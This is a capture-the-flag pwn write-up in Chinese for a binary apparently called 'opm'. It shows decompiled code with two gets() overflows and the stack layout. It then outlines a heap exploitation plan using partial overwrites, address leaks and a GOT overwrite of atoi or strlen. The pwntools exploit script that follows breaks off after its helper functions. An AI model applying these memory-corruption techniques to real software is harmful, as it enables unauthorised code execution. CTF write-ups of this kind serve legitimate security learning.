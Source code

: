       canary = __readfsqword(0x28u);
      v0 = (_QWORD *)operator new(0x20uLL);
      init_struct((__int64)v0);
      addr_of_struct[0] = (__int64)v0;
      *v0 = say;
      puts("Your name:");                           // func say
                                                    // name_addr->name(heap)
                                                    // len(name)
                                                    // punch
      gets(s);
      v1 = addr_of_struct[0];
      *(_QWORD *)(v1 + 16) = strlen(s);
      v2 = strlen(s);
      addr_of_name[0] = (__int64)malloc(v2);
      strcpy((char *)addr_of_name[0], s);
      *(_QWORD *)(addr_of_struct[0] + 8) = addr_of_name[0];
      puts("N punch?");
      gets(s);
      v3 = addr_of_struct[0];
      *(_DWORD *)(v3 + 0x18) = atoi(s);
      say(addr_of_struct[0]);
      return (int (__fastcall **)(__int64))addr_of_struct[0];
    }
两次gets都有溢出

    -00000000000001A0 s               db 128 dup(?)
    -0000000000000120 addr_of_struct  dq 16 dup(?)
    -00000000000000A0 addr_of_name    dq 17 dup(?)
    -0000000000000018 canary          dq ?
大致栈结构就这样
由于没有free函数，所以对于堆的利用比较局限
思路就是首先将 role1的结构体写到一个地址，然后把role2的结构体写到role1的name字段（堆上），之后把role2的地址也指向role1地址，这样就把role1的name打印出来，于是就可以泄露堆地址了。
由于事先我们并不知道地址是什么样，所以只能通过局部写改写地址的低字节
将role1的低字节覆盖为0010，而后添加role2，先通过第一次溢出把他的结构体搞到role1的name字段，这里可以通过把低字节改写成00做到（需要实现布局好堆结构，具体可以gdbattach调一下），而后再把role2地址改到0010
泄露完之后我们就可以将role指针随意的构造为堆上的地址了，我们最终的目的是把got表修改掉，这样就需要知道got地址和libc地址
泄露got地址主要就是构造一个伪造堆块，使他的name字段指向say函数，这样泄露地址就可以算出程序加载基地址，从而泄露got
libc同样道理
这里需要注意strlen函数以0结尾，所以我们构造的伪造role长度只能为0x10，也就是说会改变下一个堆块的头部（topsize），需要维护好topchunk
改写的话就利用第二次溢出，把地址写到len字段，改写完成
这里可以选择atoi或者strlen
exp：

    from pwn import *
    context.log_level = 'debug'
    io = process('./opm')
    elf = ELF('opm')
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    
    def add(name,punch):
    	io.recvuntil('xit')
    	io.sendline('A')
    	io.recvuntil('name:')
    	io.sendline(name)
    	io.recvuntil('?')
    	io.sendline(punch)
    def show():
    	io.recvuntil('xit')
    	io.sendline('S')
    